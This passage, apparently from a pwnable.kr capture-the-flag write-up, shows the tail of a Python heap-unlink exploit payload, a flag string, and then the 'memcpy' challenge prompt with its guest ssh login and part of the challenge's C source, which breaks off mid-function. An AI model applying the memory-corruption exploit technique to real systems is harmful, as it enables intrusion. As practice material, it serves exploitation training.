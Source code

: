 ```python

pay = p32(shell)+'a'*4
pay += 'a'*0x8
pay += p32(heap_addr+8+4)+p32(stack_addr+0x10)
#gdb.attach(cn)
#raw_input()
cn.sendline(pay)
cn.interactive()
```

`conditional_write_what_where_from_unl1nk_explo1t`




### memcpy

> Are you tired of hacking?, take some rest here.
> Just help me out with my small experiment regarding memcpy performance. 
> after that, flag is yours.
> 
> http://pwnable.kr/bin/memcpy.c
> 
> ssh memcpy@pwnable.kr -p2222 (pw:guest)

```cpp
// compiled with : gcc -o memcpy memcpy.c -m32 -lm
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <sys/mman.h>
#include <math.h>

unsigned long long rdtsc(){
        asm("rdtsc");
}

char* slow_memcpy(char* dest, const char* src, size_t len){
	int i;
	for (i=0; i<len; i++) {
		dest[i] = src[i];
	}
	return dest;
}

char* fast_memcpy(char* dest, const char* src, size_t len){
	size_t i;
	// 64-byte block fast copy
	if(len >= 64){
		i = len / 64;
		len &= (64-1);
		while(i-- > 0){
			__asm__ __volatile__ (
			"movdqa (%0), %%xmm0\n"
			"movdqa 16(%0), %%xmm1\n"
			"movdqa 32(%0), %%xmm2\n"
			"movdqa 48(%0), %%xmm3\n"
			"movntps %%xmm0, (%1)\n"
			"movntps %%xmm1, 16(%1)\n"
			"movntps %%xmm2, 32(%1)\n"
			"movntps %%xmm3, 48(%1)\n"
			::"r"(src),"r"(dest):"memory");
			dest += 64;
			src += 64;
```